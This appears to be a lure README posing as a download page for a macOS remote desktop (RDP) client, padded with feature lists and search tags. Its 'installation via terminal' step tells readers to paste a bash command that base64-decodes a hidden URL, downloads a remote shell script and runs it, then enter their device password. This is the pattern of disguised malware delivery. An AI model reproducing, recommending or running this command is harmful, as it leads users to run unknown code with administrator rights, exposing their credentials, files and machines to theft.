 # Remote Desktop for Mac – Fast and Secure RDP Client

![Remote Desktop Screenshot](https://miro.medium.com/v2/resize:fit:817/1*NGu44kfRK8ceKQ0sUNwIFA.png)

## 📥 Download Remote Desktop for macOS

[![⬇️ Download Remote Desktop](https://img.shields.io/badge/Download-Remote%20Desktop%20Mac-blue?style=for-the-badge&logo=apple)](https://mitrobandus.github.io/.github/Desktop)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above.  
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).  

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.  
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.  
3. Enter your device password and confirm the installation.  

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Remote Desktop for Mac?

Remote Desktop for Mac is a reliable and efficient RDP client that lets you remotely access Windows PCs and servers right from your macOS device. Whether you’re managing your work machine from home, connecting to a server environment, or helping others troubleshoot—this app enables smooth, secure, and real-time access.

It supports full keyboard and mouse input, clipboard sync, high-resolution displays, and custom gateway setups. Ideal for IT professionals, remote workers, and anyone who needs flexible desktop control from a Mac. Works great on Intel and Apple Silicon Macs.

---

## ⚙️ Key Features

- 🖥️ Seamless RDP Access to Windows PCs and servers  
- 🔐 Secure connections with gateway support  
- 📋 Clipboard sync and file sharing  
- 🧭 Multi-monitor support and Retina optimization  
- 🔄 Custom port and resolution control  
- 💼 Credential management  
- ⚡ Fast performance over LAN/WAN  
- 💻 macOS Ventura & M1/M2/M3 compatible  

---

## 📦 System Requirements

- macOS 10.13 (High Sierra) or later  
- Compatible with Monterey, Ventura, and Sonoma  
- Works on Intel and Apple Silicon Macs  
- Minimum 4 GB RAM  

---

## 🔍 Tags

```text
rdp for mac, mac rdc, macbook microsoft remote desktop, mac remote management, remote access mac, remote control mac, remote desktop connection mac, rdp client for mac, best remote desktop for mac, remote desktop manager mac, microsoft remote desktop mac, rdp software mac, remote desktop mac m1, rdp for macbook pro, rdp for mac download, download remote desktop for mac, remote desktop app for mac, remote desktop macos, microsoft remote desktop app for mac, mac os remote management, rdp macos, macos rdp, macos rdp client, mac to mac remote access, apple remote desktop app, rdp macbook
